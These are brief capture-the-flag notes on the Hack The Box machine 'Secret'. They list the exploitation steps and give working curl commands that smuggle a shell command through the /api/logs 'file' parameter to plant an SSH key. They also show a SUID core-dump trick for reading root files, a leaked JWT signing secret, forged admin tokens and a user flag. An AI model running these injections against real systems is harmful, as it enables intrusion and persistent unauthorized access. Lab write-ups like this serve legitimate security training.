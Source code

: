 #  Secret

1. Criar usuario via API /api/user/register
2. Obter o JWT /api/user/login
3. Baixar *source code* e encontrar falhas de *command injection* no /api/logs
4. Encontrar TOKEN_SECRET que cria o JWT
5. Criar JWT com usuario *theadmin*
6. Adicionar chave ssh em authorized_keys do user
7. Encontrar falha no código do arquivo com *SUID* de *core dump* e explorar
8. Obter chave ssh

* [JWT Cracker](https://github.com/lmammino/jwt-cracker)
* [JWT.io](https://jwt.io)
* [drt.sh htb-secret](https://drt.sh/posts/htb-secret/)


````shell
# Add ssh-key in authorized_keys
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'
````

````shell
#Explore SUID elf with core dump
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373 #or kill -BUS pid
fg
./count
Bus error (core dumped)

$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
$ strings /tmp/crash-report/CoreDump
````

````
curl -i \
--get \
-H 'Host: 10.10.11.120:3000' \
-H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5MDAwNTY2YTdlNTA0NjhhNGFlNGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQxNzM2NTYzfQ._9whmuv0q2nCEld42Mf3NlvGBXBYpuKPnr9_5MY2TXY' \
--data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120:3000/api/logs'
````


Secrets:
* TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
* JWT_HEADER = { "alg": "HS256","typ": "JWT"} JWT_PAYLOAD: { "_id": "61d9000566a7e50468a4ae4b","name": "theadmin","email": "root@dasith.works","iat": 1641736563 }
* FLAG_USER = fbbbc22182e757fe6d1a2668fba16fec
* FLAG_ROOT = 

